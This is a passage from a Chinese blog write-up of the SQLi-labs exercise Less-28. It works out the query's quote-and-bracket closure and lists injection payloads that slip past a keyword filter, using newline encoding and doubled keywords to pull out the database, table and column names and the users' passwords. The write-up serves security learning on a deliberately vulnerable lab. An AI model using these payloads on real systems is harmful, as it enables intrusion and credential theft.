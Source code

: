 


这个就绕过了这个组合的过

我们来具体回顾一下闭合方式

```bash
输入 
1' 报错 
1" 没有报错

猜测是' 类型
但是存在两个情况
SELECT * FROM users WHERE id='1'and '0' LIMIT 0,1
 
SELECT * FROM users WHERE id=('1'and '0') LIMIT 0,1
 
两个情况都可以顺利闭合 
所以我们首先判断第二个 因为如果没有括号 第一个会报错
 
输入1') and ('1'='1
 
变化就是 1')%0aand%0a('1'='1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a7c224025ada3e225887518f30e829e8.png" alt="" style="max-height:235px; box-sizing:content-box;" />


发现没有报错 那说明就是括号的闭合

')类型

我们可以开始注入了

```bash
0')%0Aununion%0Aselection%0Aselect%0A1,database(),3%0Aand%0A('1
 
 
表
0')%0Aununion%0Aselection%0Aselect%0A1,group_concat(table_name),3%0Afrom%0Ainformation_schema.tables%0Awhere%0Atable_schema=database()%0Aand%0A('1
 
字段
0')%0Aununion%0Aselection%0Aselect%0A1,group_concat(column_name),3%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_schema=database()%0Aand%0Atable_name='users'%0Aand%0A('1
 
值
0')%0Aununion%0Aselection%0Aselect%0A1,group_concat(id,username,password),3%0Afrom%0Ausers%0Awhere%0aid=1%0aand%0A('1
```

## Less-28a

这道题和28一样 并且过滤更少
